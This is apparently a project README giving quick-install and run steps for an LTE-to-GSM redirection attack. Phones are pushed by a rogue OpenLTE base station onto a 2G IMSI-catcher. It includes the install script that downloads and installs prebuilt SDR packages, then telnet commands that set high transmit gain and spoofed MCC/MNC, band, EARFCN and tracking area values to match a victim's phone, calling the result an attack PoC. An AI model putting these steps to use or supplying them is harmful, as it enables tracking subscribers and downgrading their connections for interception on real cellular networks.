 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/

```
apt update
```
```
apt-get install git
```

```
git clone https://github.com/bbaranoff/openLTE2GSM/
```
```
sudo chmod +x install.sh
```
```
sudo ./install.sh
```

The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


# OTHER INSTALLATION :  

```
sudo apt install libboost-program-options1.67.0 libboost-thread1.67.0 libusb-1.0-0 usbutils python-is-python3 python3-requests  
```
```
sudo apt install libfftw3-3
```

* Installing 2G IMSI-Catcher with ARFCN 514
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
# Shell #1  
```
LTE_fdd_enodeb
```

# Shell #2  
```
telnet localhost 30000  
```
```
write rx_gain 30  
```
```
write tx_gain 80  
```
```
write mcc 215  
```
```
write mnc 15  
```
```
write band 7  
```
```
write dl_earfcn 3350  
```
```
write tracking_area_code 6604   
```

(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
```
start  
```

wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
**https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
**https://www.youtube.com/shorts/j5cs28u4DAo  
**https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
